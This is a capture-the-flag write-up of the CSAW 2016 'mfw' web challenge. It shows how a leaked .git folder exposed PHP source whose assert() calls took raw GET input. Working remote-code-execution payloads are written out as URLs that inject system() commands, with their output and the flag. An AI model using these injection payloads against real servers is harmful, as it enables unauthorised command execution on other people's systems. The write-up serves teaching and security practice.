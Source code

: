 # mfw (Web, 125pts)

## Problem

Hey, I made my first website today. It's pretty cool and web7.9.
http://web.chal.csaw.io:8000/

## Solution

We get simple website, build with PHP, Bootstrap and with Git. Url looks vulnerable for Local File Include and Directory Traversal, but couple of standards payloads returned only "Detected hacking attempt!" or "That file doesn't exist!" messages.  

![Screen caption]
(assets/mfw2.png)


### Digging into .git folder

Abandoned, readable .git folder is a gold mine. Access to one in this challenge wasn't restricted in any way, I could easily navigate through all folders and files using web browser:

![Git]
(assets/mfw3.png)

But I wanted source code to find out the way to exploit LFI or Directory Traversal, so with little help of my own tool, **diggit** (https://github.com/bl4de/security-tools/tree/master/diggit) I downloaded sources:

```
$ ./diggit.py -u http://web.chal.csaw.io:8000/ -t /Users/bl4de/hacking/ctf/2016/CSAW_CTF_2016/mfw -r true -o 7a0a66bbc50a8fdb83909b79c328bff4596f71ed
```

![diggit in action]
(assets/mfw6.png)

I checked the file ```flag.php``` (I found commented link to it earlier, when I was checking HTML source of website), but it does not contain anything interesting, except comment ```//TODO``` - and that was crucial information to find the solution of this challenge, but more on this later:


```php
<?php
// TODO
//$FLAG = '';
?>
```

### Source code static analysis

Next, I've started to poke around ```index.php``` and validation logic, trying to find the way to exploit it with some well crafted payload:

```php
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>

/*
	HTML code here, nothing special, no logic...
*/

<div class="container" style="margin-top: 50px">
	<?php
		require_once $file;
	?>
	
</div>
		
```

Unfortunately, I wasn't able to find any payload working in both assertions. Even if I could break first assertion and successfully insert Directory Traversal payload (like ```\.\./``` or ```.?/```), I got stuck with second assertion. 

When I stopped for a second to think about the right solution, I've started to think about one particular line:

```php
$file = "templates/" . $page . ".php";
```

```$page``` was used here directly from GET parameter, without any validation. String concatenation allows here to do anything, BEFORE any of following ```assert()``` calls.


I needed something powerful and something what returns its output without any additional functions like ```print()``` or ```echo``` (which is, in fact, not a function).

And ```system()``` was exactly what I was looking for (http://php.net/manual/en/function.system.php):

```
(PHP 4, PHP 5, PHP 7)
system — Execute an external program and display the output

```
So it was even better that LFI I was trying to find. I found much more powerful Remote Code Execution (RCE) and from now on I could do anything I wanted to.

### Exploiting Remote Code Execution with system()

My payloads were pretty simple. To execute ```ls -lA``` command in the root directory I've used this one:

```
http://web.chal.csaw.io:8000/?page='.system("cd ../../../; ls -lA;").'about
```

This causes server to create such line of code:

```php
$file = "templates/" . '.system("cd ../../../; ls -lA;").' . ".php";
```

As a result, I got this:

```
.dockerenv
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
That file doesn't exist!
```

**EDIT** Output from Command Execution actually comes from one or both lines with ```assert()``` calls (it depends on usage of "../" in payload and which assertion failed first), not from the first line with ```$page``` parameter as I thought. Thanks to Dinesh Kota for pointing this!



--
#### HINT

If you are able to display such output, use option 'View source' in your browser. This allows one to display text output with all white characters (tab, new line and so on) handled in the correct way.

Here's an output from previous payload directly in the browser tab (interpreted as regular HTML, which is very hard to read, not what we want to see):

![command as HTML]
(assets/output1.png)


And here's how it looks like when 'View source' option is used instead:

![command as HTML]
(assets/output2.png)

--

At this moment I thought I just needed to find ```flag.txt``` or similar file and just took 125 points home. I was wrong :)

I couldn't find anything what looks like legitimate file with flag. I was trying various ```find``` and ```grep``` combinations with plenty of false positive results - but there were no flag at all.

Then, I realized that comment I found earlier, in file called ```flag.php```: TODO.
Flag. **TODO**.
There was no flag **yet**!


### Playing with Git, again

I get back to Git. As I was able to execute any command, I went straight into website folder and checked status of the repository (this is what I put in address bar in Chromium):

```
view-source:http://web.chal.csaw.io:8000/?page='.system("cd /var/www/html/;git status;").'about
``` 

Bingo!



![git status]
(assets/mfw7.png)

```flag.php``` was modified, but no changes were added to commit and commited, so file I've downloaded earlier didn't contain newest changes.

The last one command put in browser's address bar finished the challenge:


```
view-source:http://web.chal.csaw.io:8000/?page='.system("cd /var/www/html/;git diff;").'about
```

And here we are:

![Flag]
(assets/mfw5.png)


The flag:

```php
<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
```

![git diff FTW!!!]
(assets/gitdiff.png)

--

I had a lot of fun with this challenge, even if it was relatively simple. It contains a lot of obvious vulnerabilities like (potential) LFI with Directory Traversal and (fully exploitable) RCE, but in the end the solution turned into Git and some Git commands knowledge.

Thanks to CSAW Team for great CTF this year!

Looking forward for CSAW CTF 2017 :)
